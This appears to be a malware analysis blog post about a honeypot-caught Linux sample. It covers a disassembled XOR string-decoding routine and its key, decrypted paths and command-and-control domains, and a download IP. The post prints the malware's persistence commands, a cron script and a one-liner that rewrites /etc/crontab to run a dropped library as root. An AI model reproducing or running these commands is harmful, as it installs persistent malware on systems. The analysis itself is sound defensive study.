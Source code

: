 ```yaml
---
layout: post
title: "3945ac76b591cdbd50515b9f65821a64"
date: 2018-09-21
categories:
    - blog
keywords: "re, malware, honeypot"
---
```


Upon decompiling, there is a subroutine called as `encrypt_code`. This subroutine is using XOR to "encrypt" the string with the predefined key. The string can be "decrypt" using a simple Python script found here (https://gist.github.com/moonbingbing/3432989).

key = BB2FA36AAA9541F0

```nasm
0x8049090 <encrypt_code+0>:    push    ebp {__saved_ebp}
0x8049091 <encrypt_code+1>:    mov     ebp, esp {__saved_ebp}
0x8049093 <encrypt_code+3>:    push    esi {__saved_esi}
0x8049094 <encrypt_code+4>:    mov     esi, dword [ebp+0xc {arg2}]
0x8049097 <encrypt_code+7>:    push    ebx {__saved_ebx}
0x8049098 <encrypt_code+8>:    mov     ebx, dword [ebp+0x8 {arg1}]
0x804909b <encrypt_code+11>:    test    esi, esi
0x804909d <encrypt_code+13>:    jle     0x80490c2
0x804909f <encrypt_code+15>:    xor     ecx, ecx  {0x0}
0x80490a1 <encrypt_code+17>:    mov     eax, ecx
0x80490a3 <encrypt_code+19>:    sar     eax, 0x1f
0x80490a6 <encrypt_code+22>:    shr     eax, 0x1c
0x80490a9 <encrypt_code+25>:    lea     edx, [ecx+eax]
0x80490ac <encrypt_code+28>:    and     edx, 0xf
0x80490af <encrypt_code+31>:    sub     edx, eax
0x80490b1 <encrypt_code+33>:    movzx   eax, byte [edx+xorkeys]
0x80490b8 <encrypt_code+40>:    xor     byte [ecx+ebx], al
0x80490bb <encrypt_code+43>:    add     ecx, 0x1
0x80490be <encrypt_code+46>:    cmp     ecx, esi
0x80490c0 <encrypt_code+48>:    jne     0x80490a1
0x80490c2 <encrypt_code+50>:    mov     eax, ebx
0x80490c4 <encrypt_code+52>:    pop     ebx {__saved_ebx}
0x80490c5 <encrypt_code+53>:    pop     esi {__saved_esi}
0x80490c6 <encrypt_code+54>:    pop     ebp {__saved_ebp}
0x80490c7 <encrypt_code+55>:    retn
```

Some of the encrypted strings:

```shell
1. m4S4nAC/n&ZV - /var/run/gcc
2. m4S4nAC/nA - /var/run/
3. m6_6n3 - /tmp/
4. m [(n3 - /bin/
5. m7A4nQ_/nA - /usr/bin/
6. m.[$n__#4%\\C - /lib/libudev
7. &,Ak&\\Y&-$\x17ZFV|\x06rr\x02v=R\x1b%/2\x14R[^!\\\'lQ),\t - dns-google.org:60000|a-dns-google.com:
```

Further execution shows that a Bash script will be downloaded from `103.25.9.228` using a HTTP GET request. Last checked on 21/9/08, the IP address is no longer responding to any connection. However, some of the malware post-installation can still be found within the binary itself.

The post-installation consists of a Bash script named `/etc/cron.hourly/gcc4.sh` which contains the following lines.

```shell
#!/bin/sh
PATH=/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin:/usr/X11R6/bin
cp /lib/libudev4.so /lib/libudev4.so.6
/lib/libudev4.so.6
```

```shell
sed -i \'/\\/etc\\/cron.hourly\\/gcc4.sh/d\' /etc/crontab && echo \'*/3 * * * * root /etc/cron.hourly/gcc4.sh\' > /etc/crontab
```
